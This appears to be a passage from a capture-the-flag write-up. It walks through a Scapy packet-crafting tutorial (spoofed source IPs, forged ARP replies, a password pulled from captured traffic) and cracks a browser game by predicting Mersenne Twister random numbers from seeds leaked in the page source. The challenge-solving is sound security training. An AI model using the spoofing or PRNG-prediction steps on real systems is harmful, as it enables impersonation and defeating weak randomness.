<IP  version=4 ihl=5 tos=0x0 len=76 id=53241 flags= frag=0 ttl=128 proto=udp chksum=0x9539 src=192.168.170.20 dst=192.168.170.8 |<UDP  sport=domain dport=32795 len=56 chksum=0xa317 |<DNS  id=30144 qr=1 opcode=QUERY aa=0 tc=0 rd=1 ra=1 z=0 ad=0 cd=0 rcode=ok qdcount=1 ancount=1 nscount=0 arcount=0 qd=<DNSQR  qname='www.elves.rule.' qtype=A qclass=IN |> an=<DNSRR  rrname='www.elves.rule.' type=A rclass=IN ttl=82159 rdlen=None rdata=10.21.23.12 |> ns=None ar=None |>>>

>>> x[IP].src = '127.0.0.1'

>>> task.submit(x)
Correct! You can change ALL scapy packet attributes using this method.

Submit the password "task.submit('elf_password')" of the user alabaster as found in the packet list TCP_PACKETS.
>>> task.submit('PASS echo')

Correct! Here is some really nice list comprehension that will grab all the raw payloads from tcp packets:
[pkt[Raw].load for pkt in TCP_PACKETS if Raw in pkt]

The ICMP_PACKETS variable contains a packet list of several icmp echo-request and icmp echo-reply packets. Submit only the ICMP chksum value from the second packet in the ICMP_PACKETS list.
You could get the ICMP id value of the 3rd packet using ICMP_PACKETS[2][ICMP].id .

>>> task.submit(ICMP_PACKETS[1][ICMP].chksum)
Correct! You can access the ICMP chksum value from the second packet using ICMP_PACKETS[1][ICMP].chksum .

Submit the number of the choice below that would correctly create a ICMP echo request packet with a destination IP of 127.0.0.1 stored in the variable named "pkt"
1. pkt = Ether(src='127.0.0.1')/ICMP(type="echo-request")
2. pkt = IP(src='127.0.0.1')/ICMP(type="echo-reply")
3. pkt = IP(dst='127.0.0.1')/ICMP(type="echo-request")

>>> task.submit(3)
Correct! Once you assign the packet to a variable named "pkt" you can then use that variable to send or manipulate your created packet.

Create and then submit a UDP packet with a dport of 5000 and a dst IP of 127.127.127.127. (all other packet attributes can be unspecified)
>>> task.submit(IP(dst='127.127.127.127')/UDP(dport=5000))
Correct! Your UDP packet creation should look something like this:
pkt = IP(dst="127.127.127.127")/UDP(dport=5000)
task.submit(pkt)

Create and then submit a UDP packet with a dport of 53, a dst IP of 127.2.3.4, and is a DNS query 
with a qname of "elveslove.santa". (all other packet attributes can be unspecified)
>>> task.submit(IP(dst='127.2.3.4')/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname='elveslove.santa')))
Correct! Your UDP packet creation should look something like this:
pkt = IP(dst="127.2.3.4")/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname="elveslove.santa"))
task.submit(pkt)

>>> ARP_PACKETS[1][ARP]
<ARP  hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=None hwsrc=ff:ff:ff:ff:ff:ff psrc=192.168.0.1 hwdst=ff:ff:ff:ff:ff:ff pdst=192.168.0.114 |<Padding  load='\xc0\xa8\x00r' |>>

>>> task.help()
The three fields in ARP_PACKETS[1][ARP] that are incorrect are op, hwsrc, and hwdst. A sample ARP pcap can be referenced at https://www.cloudshark.org/captures/e4d6ea732135. You can run the "reset_arp()" function to reset the ARP packets back to their original form.

>>> ARP_PACKETS[1]
<Ether  dst=00:16:ce:6e:8b:24 src=00:13:46:0b:22:ba type=ARP |<ARP  hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=who-has hwsrc=ff:ff:ff:ff:ff:ff psrc=192.168.0.1 hwdst=ff:ff:ff:ff:ff:ff pdst=192.168.0.114 |<Padding  load='\xc0\xa8\x00r' |>>>

>>> ARP_PACKETS[1][ARP].hwsrc = "00:13:46:0b:22:ba"

>>> ARP_PACKETS[1][ARP].hwdst = "00:16:ce:6e:8b:24"

>>> ARP_PACKETS[1][ARP].op =2

>>> task.submit(ARP_PACKETS)
Great, you prepared all the present packets!

Congratulations, all pretty present packets properly prepared for processing!
```

### Snowball game
You need to be able to predict random numbers, see https://github.com/kmyk/mersenne-twister-predictor/blob/master/readme.md

Looking at the source of the page in impossible mode shows the seeds that are aren't "random enough":
```html
<!--
    Seeds attempted:
    
    3081452525 - Not random enough
    835632948 - Not random enough
    3090780851 - Not random enough
    89736527 - Not random enough
    ...620 other entries removed
    <Redacted!> - Perfect!
  -->
```

Using the `mt19337.py` file from [Tom Liston's repo](https://github.com/tliston/mt19937/blob/main/mt19937.py), write a script (in `mt19937predict.py`), to read in these numbers (`prng_prediction/random_numbers.txt`) and predict the seed that will be used:

```shell
$ python mt19937predict.py
<seed>
```

Then, open the game in a separate window and pick the easy level. The name will be this seed. Solve it on easy and only put in the "hits" on the impossible game.

Alternatively, use a pre-built package:

```shell
$ pip install mersenne-twister-predictor
$ cat random_numbers.txt | python -m "mt19937predict"
<seed>
```
